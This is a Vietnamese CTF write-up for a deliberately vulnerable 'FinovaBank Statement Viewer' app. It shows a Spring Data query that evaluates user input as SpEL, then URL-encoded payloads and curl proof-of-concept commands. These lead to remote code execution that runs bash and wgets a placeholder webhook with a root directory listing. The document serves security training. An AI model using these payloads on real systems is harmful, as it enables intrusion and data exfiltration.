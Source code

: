 # FinovaBank Statement Viewer

## Writeups from the teams

- [Team VNDirect](https://manhnv.com/toi-da-dong-gop-gi-de-cung-team-vo-dich-df-cyber-defense-2025-king-of-the-hill)

## SpEL Injection

Ứng dụng cung cấp endpoint `/api/statements/search` với tham số `customerName` để tìm kiếm sao kê. Truy vấn trong repository dùng SpEL nội suy trực tiếp dữ liệu người dùng vào biểu thức:

```java
@Query("{ 'customerName': { $regex: ?#{ \"?0\" }, $options: 'i' } }")
List<Statement> findByCustomerName(String customerName);
```

Điều này khiến input người dùng có thể trở thành một phần của SpEL Expression (biểu thức) và được evaluate.

## Remote Code Execution

- Khi thực hiện pentest blackbox, ta có thể thử ký tự nháy đôi `"` để xem phản ứng của ứng dụng:

```
/api/statements/search?customerName="
/api/statements/search?customerName="a"
```

Ta sẽ thấy các error message dạng `EL1045E`/`EL1041E` từ SpEL.

- Kiểm tra evaluate (URL-encode):

```
/api/statements/search?customerName=%22%2BT(java.lang.Runtime)%2B%22
```

Nếu không còn lỗi và trả 200, chứng tỏ rằng có thể expression đã được evaluate.

- Ví dụ payload RCE tạo outbound request (URL-encode đầy đủ):

```
/api/statements/search?customerName=%22%2BT(java.lang.Runtime).getRuntime().exec('/bin/bash%20-c%20{wget,https://<your-webhook-url>?x=%60{echo,$({ls,/})}%60}')%2B%22
```

## Quick POC using curl

```bash
# 1) Lỗi parser
curl -s "http://<host>/api/statements/search?customerName=%22"

# 2) Evaluate expression
curl -s "http://<host>/api/statements/search?customerName=%22%2BT(java.lang.Runtime)%2B%22"

# 3) Outbound RCE
curl -s "http://<host>/api/statements/search?customerName=%22%2BT(java.lang.Runtime).getRuntime().exec('/bin/bash%20-c%20{wget,https://<your-webhook-url>?x=%60{echo,$({ls,/})}%60}')%2B%22"
```

